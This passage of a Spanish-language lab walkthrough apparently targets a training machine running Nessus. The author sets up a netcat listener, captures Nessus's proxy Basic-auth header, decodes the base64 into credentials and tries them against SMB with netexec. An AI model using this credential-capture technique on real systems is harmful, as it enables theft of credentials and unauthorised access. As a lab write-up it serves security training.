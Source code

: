 ```shell
nc -lvnp 8080
```

Ahora le daremos al boton y veremos lo siguiente:

```
listening on [any] 8080 ...
connect to [192.168.1.146] from (UNKNOWN) [192.168.1.164] 49793
CONNECT plugins.nessus.org:443 HTTP/1.1
Proxy-Authorization: Basic bmVzdXM6WiNKdVhIJHBoLTt2QCxYJm1WKQ==
Host: plugins.nessus.org
Connection: keep-Alive
User-Agent: Nessus/10.7.3
Content-Length: 0
Proxy-Connection: Keep-Alive
```

Vemos que nos envia la contraseña de `nessus` en `Base64`, si lo decodificamos veremos lo siguiente:

```shell
echo 'bmVzdXM6WiNKdVhIJHBoLTt2QCxYJm1WKQ==' | base64 -d
```

Info:

```
nesus:Z#JuXH$ph-;v@,X&mV)
```

Ahora vamos a probar dichas credenciales para el servidor `SMB`:

```shell
netexec smb <IP> -u nesus -p 'Z#JuXH$ph-;v@,X&mV)' --ignore-pw-decoding
```

Info:

```
SMB         192.168.1.164   445    NESSUS           [*] Windows Server 2022 Build 20348 x64 (name:NESSUS) (domain:Nessus) (signing:False) (SMBv1:False)
SMB         192.168.1.164   445    NESSUS           [-] Nessus\nesus:Z#JuXH$ph-;v@,X&mV) STATUS_PASSWORD_EXPIRED
```

Vemos que nos dice que si funciona, pero que ha expirado, por lo que esto es un fallo de la maquina, tendremos que cambiarlo de forma manual para actualizar la contraseña a la misma, haremos lo siguiente:

Nos vamos a la maquina `Windows` y le damos al siguiente boton:

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>
